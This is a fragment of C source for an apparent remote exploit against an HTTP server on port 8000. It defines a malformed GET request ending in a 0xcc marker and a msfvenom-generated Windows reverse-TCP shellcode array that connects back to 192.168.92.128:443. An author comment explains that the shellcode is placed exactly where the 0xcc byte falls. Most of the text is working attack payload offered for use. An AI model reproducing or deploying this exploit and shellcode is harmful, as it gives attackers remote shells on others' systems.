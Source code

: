     #define VER "0.1"
    #define PORT 8000
    #define BUFFSZ 2048
    #define TIMEOUT 3
    #define EXEC    "GET / HTTP/1.0\r\n" \
                    "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" \
                    "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" \
                    "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" \
                    "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" "a\r\n" \
                    "\xcc"

    // msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.92.128 LPORT=443 -b '\x0a\x0d\x00' -f c
    unsigned char shellcode[] =
    "\xda\xc6\xd9\x74\x24\xf4\x5f\xb8\x1e\xf9\xbc\x15\x2b\xc9\xb1"
    "\x52\x83\xef\xfc\x31\x47\x13\x03\x59\xea\x5e\xe0\x99\xe4\x1d"
    "\x0b\x61\xf5\x41\x85\x84\xc4\x41\xf1\xcd\x77\x72\x71\x83\x7b"
    "\xf9\xd7\x37\x0f\x8f\xff\x38\xb8\x3a\x26\x77\x39\x16\x1a\x16"
    "\xb9\x65\x4f\xf8\x80\xa5\x82\xf9\xc5\xd8\x6f\xab\x9e\x97\xc2"
    "\x5b\xaa\xe2\xde\xd0\xe0\xe3\x66\x05\xb0\x02\x46\x98\xca\x5c"
    "\x48\x1b\x1e\xd5\xc1\x03\x43\xd0\x98\xb8\xb7\xae\x1a\x68\x86"
    "\x4f\xb0\x55\x26\xa2\xc8\x92\x81\x5d\xbf\xea\xf1\xe0\xb8\x29"
    "\x8b\x3e\x4c\xa9\x2b\xb4\xf6\x15\xcd\x19\x60\xde\xc1\xd6\xe6"
    "\xb8\xc5\xe9\x2b\xb3\xf2\x62\xca\x13\x73\x30\xe9\xb7\xdf\xe2"
    "\x90\xee\x85\x45\xac\xf0\x65\x39\x08\x7b\x8b\x2e\x21\x26\xc4"
    "\x83\x08\xd8\x14\x8c\x1b\xab\x26\x13\xb0\x23\x0b\xdc\x1e\xb4"
    "\x6c\xf7\xe7\x2a\x93\xf8\x17\x63\x50\xac\x47\x1b\x71\xcd\x03"
    "\xdb\x7e\x18\x83\x8b\xd0\xf3\x64\x7b\x91\xa3\x0c\x91\x1e\x9b"
    "\x2d\x9a\xf4\xb4\xc4\x61\x9f\x7a\xb0\x35\xdf\x13\xc3\xc5\xde"
    "\x58\x4a\x23\x8a\x8e\x1b\xfc\x23\x36\x06\x76\xd5\xb7\x9c\xf3"
    "\xd5\x3c\x13\x04\x9b\xb4\x5e\x16\x4c\x35\x15\x44\xdb\x4a\x83"
    "\xe0\x87\xd9\x48\xf0\xce\xc1\xc6\xa7\x87\x34\x1f\x2d\x3a\x6e"
    "\x89\x53\xc7\xf6\xf2\xd7\x1c\xcb\xfd\xd6\xd1\x77\xda\xc8\x2f"
    "\x77\x66\xbc\xff\x2e\x30\x6a\x46\x99\xf2\xc4\x10\x76\x5d\x80"
    "\xe5\xb4\x5e\xd6\xe9\x90\x28\x36\x5b\x4d\x6d\x49\x54\x19\x79"
    "\x32\x88\xb9\x86\xe9\x08\xc9\xcc\xb3\x39\x42\x89\x26\x78\x0f"
    "\x2a\x9d\xbf\x36\xa9\x17\x40\xcd\xb1\x52\x45\x89\x75\x8f\x37"
    "\x82\x13\xaf\xe4\xa3\x31";


    /*
    in my example 0xcc is used to interrupt the code execution, you must
    put your shellcode exactly there.
    You don't need to call a shellcode offset (CALL ESP, JMP ESP and so
    on) or doing any other annoying operation because the code flow
    points directly there!!!
    Cool and easy 8-)
    */


    /*int startWinsock(void)
    {
      WSADATA wsa;
      return WSAStartup(MAKEWORD(2,0),&wsa);
    }
    */
    int timeout(int sock);
    u_long resolv(char *host);
    void std_err(void);
